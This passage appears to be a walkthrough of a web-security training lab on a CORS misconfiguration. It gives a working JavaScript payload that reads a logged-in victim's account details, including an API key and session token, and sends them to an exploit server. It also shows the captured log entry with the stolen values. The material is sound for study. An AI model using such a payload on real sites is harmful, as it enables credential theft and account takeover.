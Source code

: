 The above response proves that this is vulnerable because it has allowed access with the `Allow-Control-Allow-Origin` and `Allow-Control-Allow-Credentials` header.


Next I used the following script which makes a request to the `accountDetails` page with the victim cookies which gives us access to the victims api key and sends that back to the exploit-server via the key parameter.

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a6d00880499bce0c15b1885008a0098.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='https://exploit-0a620047043fbc6dc13817cf01ad0011.exploit-server.net/log?key='+this.responseText;
};
</script>

```

We confirm this by viewing our access log and viewing the following entry:

```

10.0.4.188      2022-12-23 15:03:53 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22NQmGyvh0XsP0a7E0sKI4Bf2XnMrfcy3n%22,%20%20%22sessions%22:%20[%20%20%20%20%221x6TlltvAUGbqxhmun6jlycJFQ3DeK7g%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"

```

 which decoded looks like:

 ```
10.0.4.188      2022-12-23 15:03:53  0000 "GET /log?key={  "username": "administrator",  "email": "",  "apikey": "NQmGyvh0XsP0a7E0sKI4Bf2XnMrfcy3n",  "sessions": [    "1x6TlltvAUGbqxhmun6jlycJFQ3DeK7g"  ]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"


 ```


 ## Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
